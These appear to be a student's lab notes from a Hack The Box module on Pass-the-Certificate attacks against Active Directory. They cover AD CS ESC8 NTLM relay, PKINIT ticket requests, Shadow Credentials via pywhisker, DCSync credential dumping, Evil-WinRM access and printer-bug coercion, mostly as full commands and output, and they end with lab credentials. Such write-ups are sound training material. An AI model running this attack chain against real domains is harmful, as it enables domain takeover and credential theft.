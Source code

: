 
PKINIT = Public Key Cryptography for Initial Authentication

- Pass the Certificate often refers to the technique of using X.509 Certs to successfully obtain Ticket Granting Tickets. This Method is primarily used alongside attacks against Active Directory Certificate Services (AD CS) as well as Shadow Credentials. 

## AD CS NTLM Relay Attack

**ESC8**
- This is an NTLM Relay Attack targeting an ADCS HTTP endpoint. 
- By default, cert authority configured to allow web enrollement typically hosts the following application over an HTTP connection /CertSrv

![[Pasted image 20251029210939.png]]


Attackers can use ImPackets ntlmrelayx to listen for inbound connections and relay them to the web enrolloment service using the following command: 
```shell-session
realCustampin@htb[/htb]$ impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

**Note:** The value passed to `--template` may be different in other environments. This is simply the certificate template which is used by Domain Controllers for authentication. This can be enumerated with tools like [certipy](https://github.com/ly4k/Certipy).

```shell-session
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[*] HTTP server returned error code 404, treating as a successful login
[*] Authenticating against http://10.129.234.110 as INLANEFREIGHT/DC01$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[-] Authenticating against http://10.129.234.110 as / FAILED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 8
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

Now that we have a certificate, we can now perform a Pass-the-certificate attack to obtain a TGT as DC01$ 

```shell-session
realCustampin@htb[/htb]$ git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
realCustampin@htb[/htb]$ python3 -m venv .venv
realCustampin@htb[/htb]$ source .venv/bin/activate
realCustampin@htb[/htb]$ pip3 install -r requirements.txt
```

**Note:** If you encounter error stating `"Error detecting the version of libcrypto"`, it can be fixed by installing the [oscrypto](https://github.com/wbond/oscrypto) library.

```shell-session
realCustampin@htb[/htb]$ pip3 install -I git+https://github.com/wbond/oscrypto.git
Defaulting to user installation because normal site-packages is not writeable
Collecting git+https://github.com/wbond/oscrypto.git
<SNIP>
Successfully built oscrypto
Installing collected packages: asn1crypto, oscrypto
Successfully installed asn1crypto-1.5.1 oscrypto-1.3.0
```

**Commencing Attack:**

```shell-session
realCustampin@htb[/htb]$ python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache

2025-04-28 21:20:40,073 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-28 21:20:40,351 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-28 21:21:05,508 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-28 21:21:05,508 minikerberos INFO     3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
INFO:minikerberos:3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
2025-04-28 21:21:05,512 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```


**Familiar Territory:**

- Now that we have a TGT for DC01, we are back to our Pass the Ticket module. 


```shell-session
realCustampin@htb[/htb]$ export KRB5CCNAME=/tmp/dc.ccache
realCustampin@htb[/htb]$ impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...SNIP...:::
<SNIP>
```

## Shadow Credentials
- An attack the abuses the msDS-KeyCredentialLink attribute of a victim user. This attribute stores public keys that can be used for authentication through PKINIT. 
- Within Bloodhound, the AddKeyCredentialLink edge indicates that one user has write permissions over another user's msDS-KeyCredentialLink attribute. 
![[Pasted image 20251029211827.png]]


Using pywhisker, we can perform this attack from a linux system:
```shell-session
realCustampin@htb[/htb]$ pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

[*] Searching for the target account
[*] Target user found: CN=Jesse Pinkman,CN=Users,DC=inlanefreight,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3496da7f-ab0d-13e0-1273-5abca66f901d
[*] Updating the msDS-KeyCredentialLink attribute of jpinkman
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: eFUVVTPf.pfx
[+] PFX exportiert nach: eFUVVTPf.pfx
[i] Passwort für PFX: bmRH4LK7UwPrAOfvIx6W
[+] Saved PFX (#PKCS12) certificate & key at path: eFUVVTPf.pfx
[*] Must be used with password: bmRH4LK7UwPrAOfvIx6W
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```


A TGT can now be obtained using gettgtpkinit.py to acquire a TGT as a victim: 
```shell-session
realCustampin@htb[/htb]$ python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache

2025-04-28 20:50:04,728 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-28 20:50:04,775 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-28 20:50:04,929 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-28 20:50:04,929 minikerberos INFO     f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
INFO:minikerberos:f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
2025-04-28 20:50:04,937 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Now that we have a ticket, we can now authenticate to the Domain Controller: 
```shell-session
realCustampin@htb[/htb]$ export KRB5CCNAME=/tmp/jpinkman.ccache
realCustampin@htb[/htb]$ klist

Ticket cache: FILE:/tmp/jpinkman.ccache
Default principal: jpinkman@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/28/2025 20:50:04  04/29/2025 06:50:04  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

We can now use Evil-WinRM to login to the user account because that user is part of the Remote Management Users group. 
```shell-session
realCustampin@htb[/htb]$ evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jpinkman\Documents> whoami
inlanefreight\jpinkman
```


## Other Considerations:

We can either sit back and wait for our victims to attempt authentication against their machine randomly, or they can actively coerce them into doing so. This can be done by using the printer bug: 

```shell-session
realCustampin@htb[/htb]$ python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

wwhite 
package5shores_topher1

DC = 10.129.107.175
CA = 10.129.135.208